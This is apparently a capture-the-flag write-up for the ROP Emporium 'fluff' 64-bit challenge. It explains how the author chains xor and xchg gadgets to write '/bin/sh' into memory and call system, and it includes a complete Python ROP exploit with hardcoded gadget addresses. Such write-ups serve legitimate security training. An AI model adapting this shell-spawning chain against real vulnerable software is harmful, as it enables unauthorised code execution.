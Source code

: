 # fluff - 64 bit

the goal of this challange is very similar to the write4 one.(https://github.com/alal4465/CTF_Writeups/tree/master/ROP%20Emporium%5Bwrite4-64bit%5D)   
      
![hathala](https://user-images.githubusercontent.com/60041914/78301733-34105b80-7542-11ea-9c08-939b18552714.png)
      
we need to write a string to memory,    
point rdi at it,    
and call system with the string as a parameter.     

but this time there is no single gadget that allows for arbitrary write.     
looking at the output from ROPgadget (this time using --depth 20 in hope to find some useful gadgets)     
these gadgets seem interesting:    
```
#0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
#0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
#0x00000000004008c3 : pop rdi ; ret
#0x000000000040084d : pop rdi ; mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
#0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
#0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
```
   
using these gadgets, my plan was:
1.empty r11("xor r11, r11")      
2.set r12 to write adress    
3.xor r11 with r12 (r11 is zero so it should set it to r12)      
4.xchg r11 with r10 (r10 now points to dest memory)     
5.empty r11      
6.set r11 to str with those same steps      
7.write r11 to [r10]       
     
after taking care of some unwanted parts of these gadgets    
the ROP chain looks like this:
```python
STR_ADDR=0x006010b0
CALL_SYSTEM=0x004005e0
SET_RDI=0x004008c3
WRITE_MEM=0x0040084d
EMPTY_R11=0x00400822
XOR_R11_R12=0x0040082f
SET_R12=0x00400832
XCHG_R11_R10=0x00400840

def write_str(s,addr,exp):
    #write 8 byte string to memory using creative gadgets
    exp+=p64(EMPTY_R11) # empty r11
    exp+=p64(0x41414141) # garbage r14 value
    exp+=p64(SET_R12) 
    exp+=p64(addr) # set r12 to write adress
    exp+=p64(XOR_R11_R12) # xor r11 r12(0x00 ^ r12 = r12)
    exp+=p64(0x41414141) # garbage r12 value
    exp+=p64(XCHG_R11_R10) # xchg r11, r10
    exp+=p64(0x41414141) # garbage r15 value
    exp+=p64(EMPTY_R11) # xor r11, r11
    exp+=p64(0x41414141) # garbage r14 val
    exp+=p64(SET_R12)
    exp+=s # set R12 to string
    exp+=p64(XOR_R11_R12) # xor r11 r12(0x00 ^ r12 = r12)
    exp+=p64(0x41414141) # garbage
    exp+=p64(WRITE_MEM) # write r11 to [r10] 
    exp+=p64(0x41414141) # garbage rdi val
    exp+=p64(0x41414141) # garbage r13 val
    exp+=p64(0x0) # set r12 to 0 so the xor wont hurt our string
    return exp

exploit=b'A'*40
exploit=write_str(b"/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)

```
      
![ending](https://user-images.githubusercontent.com/60041914/78301739-35418880-7542-11ea-9f3a-8691f7332b5c.png)
     
